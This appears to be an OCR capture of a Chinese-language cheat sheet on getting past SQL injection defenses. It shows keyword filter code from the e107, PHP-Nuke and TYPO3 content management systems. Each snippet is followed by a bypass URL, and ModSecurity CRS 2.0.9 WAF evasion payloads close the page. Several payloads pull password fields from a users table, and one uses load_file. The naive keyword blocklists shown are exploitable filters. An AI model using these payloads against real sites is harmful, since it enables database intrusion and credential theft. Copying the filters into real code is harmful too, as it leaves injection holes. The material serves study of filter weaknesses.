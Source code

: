 a) Web应用绕过示例
  
1. e107 CMS

``` php 
  
	$inArray = array("'", ";", "/**/", "/UNION/", "/SELECT/", "AS "); 
	  
	if (strpos($_SERVER['PHP_SELF'], "trackback") === false) { 
	  
	foreach($inArray as $res) { 
	  
	if(stristr($_SERVER['QUERY_STRING'], $res)) { 
	  
	die("Access denied."); 
	  
	}}}
  
```
Bypass:
`vuln.php/trackback?inject=UNI%6fN SELECT`  

2. PHP-Nuke CMS  

``` php
	if(isset($_SERVER['QUERY_STRING']) && (!stripos($_SERVER['QUERY_STRING'], "ad_click"))) { 
  
		$queryString = $_SERVER['QUERY_STRING']; 
	  
		if ( stripos($queryString, '%20union%20') 
	  
			OR stripos($queryString, '/*') 
	  
			OR stripos($queryString, '*/union/*') 
	  
			OR stripos($queryString, '+union+') 
	  
			OR stripos($queryString, 'concat')) 
		{ die('Illegal Operation'); }
  
```
Bypass:  
`vuln.php?inject=%a0UNI%6fN(SELECT'ad_click'`  
  
3. TYPO3 CMS  
`$val = str_replace(array("'"," ","("),"",$arrFields[$fname]); // basic defence`  
Bypass:  
vuln.php?id=1/&#42;&#42;/union%a0select/&#42;&#42;/1,pass,3&#96;a&#96;from&#96;users&#96;   
  

  
b) WAF绕过示例
  
1. ModSecurity CRS 2.0.9
   
``` sql
  
1'and 0x61=(/*foo*/SELECT mid(pass,1,1) from users limit 1,1)and'1
  
1'union/*!select*/pass,load_file(0x123456789)from users-- -
  
```
  